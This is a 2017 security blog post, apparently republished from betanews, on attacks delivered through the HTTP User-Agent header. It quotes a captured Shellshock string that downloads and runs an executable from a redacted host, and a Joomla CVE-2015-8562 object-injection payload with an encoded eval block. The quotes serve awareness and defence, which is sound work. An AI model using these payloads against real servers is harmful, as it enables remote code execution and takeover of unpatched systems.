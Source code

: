 ```yaml
---
template: "blog/blog-post"
draft: false

# Metadata
title: "User-Agent based attacks are a low-key risk that shouldn't be overlooked"
description: "It is a known fact that while the majority of vulnerabilities discovered or reported are fixed by the vendor and a patch is issued, many systems end up not being patched in a timely manner or even at all, for that matter."

# Breadcrumbs
breadcrumbs:
  - name: TechBlog
    path: /techblog/
  - name: User-Agent based attacks...

# Fields
date: 2017-03-22
author:
  - Inbar Raz

blog_title: "User-Agent based attacks are a low-key risk that shouldn't be overlooked"
categories: Research
tags:
  - commerce security

related_posts:

thumbnail: user-agent-based-attacks.jpg

canonical_overwrite: https://betanews.com/2017/03/22/user-agent-based-attacks-are-a-low-key-risk-that-shouldnt-be-overlooked/
---
```


_As originally published in [betanews](https://betanews.com/2017/03/22/user-agent-based-attacks-are-a-low-key-risk-that-shouldnt-be-overlooked/)_

![](/assets/images/blog/user-agent-based-attacks.jpg)

Old, unpatched vulnerabilities allow hackers to take over systems using the User-Agent string -- an elementary part of virtually every HTTP request.

It is a known fact that while the majority of vulnerabilities discovered or reported are fixed by the vendor and a patch is issued, many systems end up not being patched in a timely manner or even at all, for that matter. There are many possible reasons for that, the most common being:

- Automatic updates are turned off.
- Update postponed by the user (usually due to an inconvenient timing).
- Unattended or remote servers are not supervised.
- Updates require a reboot which is never performed.

As a result, even though a patch has been created and deployed, there remain many unpatched systems on the Internet.

Hackers track patch releases and quickly reverse engineer the patch, in order to discover what vulnerability has just been fixed. Once they find it, they weaponize it and then proceed to scan the Internet for vulnerable machines. When a vulnerable machine is found, it is automatically compromised and the attacker takes control of it.

Here's a couple of vulnerabilities specific to when a system parses the User-Agent string from a web browser or any other HTTP request.

## The User-Agent string

When a web browser requests a page from a web server, it sends out a string containing information on the platform, operating system and software installed on the requesting computer. The web server can then use this information in order to better customize the page content for that particular browser. The best example would be to send a version of the page that is better laid out for mobile devices.

This string is called the [User-Agent](https://en.wikipedia.org/wiki/User_agent) string. User-Agent strings have many forms, and typically look similar to one of the following examples:

> Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.23 Safari/537.36

> Mozilla/5.0 (iPad; CPU iPhone OS 9_0_2 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) Mobile/12A405

> Mozilla/5.0 (Linux; Android 4.0.4; HTC Desire P Build/IMM76D) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.166 Mobile Safari/535.19

As you can see, it’s relatively easy to tell that the first was generated by a Windows device, the second by an iPad and the third by an HTC mobile phone running Android.

In practice, anyone can put whatever they want in the User-Agent string, and send it to the web server. For example, here’s the User-Agent string for Googlebot:

> Googlebot/2.1 (+http://www.google.com/bot.html)

And one last example, a User-Agent of a Smart TV by Panasonic:

> Opera/9.80 (Linux mips; ) Presto/2.12.407 Version/12.51 MB98/0.0.32.5 (PANASONIC, Mxl661LG32, wireless) VSTVB_MB97 SmartTvA/3.0.0

## Parsing the User-Agent

There are many different web server products, using a variety of architectures and programming languages. And all must, at some point, take the string that was received from the request or the browser and parse it, in order to be able to customize the web page as required.

It is exactly that stage -- the parsing of the User-Agent string -- that gets targeted by hackers. The hackers’ rule of thumb says that when a remote system is processing a user-controlled input -- and the User-Agent string is, as we’ve shown, entirely controlled by the user -- it’s a good place to look for bugs.

Let’s look at two examples of such vulnerabilities, that hackers are trying to exploit on a regular basis: the Shellshock vulnerability, targeting linux systems, and a specific vulnerability targeting the Joomla CMS platform.

## Shellshock

CVE-2014-6271, CVE-2014-6277, CVE-2014-6278, CVE-2014-7169, CVE-2014-7186, CVE-2014-7187

In September 2014, a vulnerability was discovered in <a href="https://en.wikipedia.org/wiki/Bash_(Unix_shell)" target="_blank">bash</a>, a popular shell (command-line interface) in Unix systems. The vulnerability, when exploited, allowed an attacker to take over the affected machine and execute arbitrary commands. This type of attack, named Remote Code Execution (or RCE for short) is the holy grail for attackers, since it gives the attacker a very high degree of control over the affected system.

Within hours of the publication of the existence of the vulnerability, both the black-hat community and the security industry mobilized.

The bad guys -- the black-hat community -- immediately started scanning the Internet for vulnerable systems, subsequently attacking them and taking control of them.

<img class="image-left" src="/assets/images/blog/shellshock.png" alt="shellshock" />

The good guys -- the security industry -- quickly took a deeper look at the affected modules and found a few more vulnerabilities in the same area. Those were collectively named <a href="https://en.wikipedia.org/wiki/Shellshock_(software_bug)" target="_blank">Shellshock</a> and the branding even included a logo

Following the discovery of Shellshock, security professionals have been racing to update all the vulnerable software they could lay their hands on. But not all businesses have their own private security professional, and more important, not all systems are routinely updated. As a result, vulnerable systems could still be found many months after the vulnerability had already been reported and fixed.

Of all the countless implementations that were found to be vulnerable, the one that was probably the easiest to exploit was the processing of the User-Agent string.

Here is an example of a User-Agent string we detected, that tries to trigger the Shellshock vulnerability and use it to download an executable from the Internet, and then run it:

> () { :;}; /bin/bash -c "wget http://[redacted]/wp2 -O /tmp/w3;curl -o /tmp/w3 http://[redacted]/wp2;chmod +x /tmp/w3;sh /tmp/w3;rm -rf /tmp/w3\*"

As it turns out, Shellshock exploitation attempts can still be detected across the board. These are opportunistic attempts, of course, but as the famous security lema says: The defender has to succeed 100 percent of the time, while the attacker only needs to succeed once.

## Joomla PHP object injection via HTTP User-Agent header

CVE-2015-8562

Joomla is a very popular CMS and web application framework written in PHP. It allows for a simple and easy development of a full featured web site, including a complete user system, comments platform, templates, plugins and more. As of September 2015 it is hosted in no less than 2,800,000 websites.

On December of 2015, the vulnerability was disclosed. A problem with parsing the User-Agent data led to an attacker being able to execute arbitrary code on an affected system. A thorough report on the vulnerability can be found in this [blog post by PatrolServer](https://blog.patrolserver.com/2015/12/17/in-depth-analyses-of-the-joomla-0-day-user-agent-exploit/).

Here’s an example of an attack we detected, using a specially-crafted User-Agent string, designed to trigger the vulnerability:

> }\_\_test|O:21:""JDatabaseDriverMysqli"":3:{s:2:""fc"";O:17:""JSimplepieFactory"":0:{}s:21:""\0\0\0disconnectHandlers"";a:1:{i:0;a:2:{i:0;O:9:""SimplePie"":5:{s:8:""sanitize"";O:20:""JDatabaseDriverMysql"":0:{}s:8:""feed_url"";s:1850:""eval(base64_decode('DQoJ[redacted]nApOw=='));JFactory::getConfig();exit"";s:19:""cache_name_function"";s:6:""assert"";s:5:""cache"";b:1;s:11:""cache_class"";O:20:""JDatabaseDriverMysql"":0:{}}i:1;s:4:""init"";}}s:13:""\0\0\0connection"";b:1;}����

The base64_decode() function is used to decode a large encoded block (redacted in this example), which is then used to create a script that, in turn, downloads and installs additional tools to be used by the attacker.

## Conclusion

The volume of User-Agent exploitation attempts that we are seeing is not high, but it’s stable. It proves to show that the illicit business model still works, and there are still vulnerable systems out there, being scanned for, attacked, taken over and then, on top of everything else, used to propagate the attack even further.

It’s an interesting attack vector, and we would like to raise the awareness to such attacks.

The most important thing you can do, of course, is **make sure all security patches are regularly installed**. This is a single-point-of-failure that allows this type of attacks to keep on going.

If you are a security professional, you should be working in **hunting mode** rather than in **fishing mode**. Don’t just wait for your security suits to notify you when they find something. Go look for it yourself. The User-Agent string is very easy to log and inspect, whether manually or using a simple script. It might not give you a real-time alert, but if such an attack has managed to make it through your defenses, at least you’ll be able to find it and mitigate it.
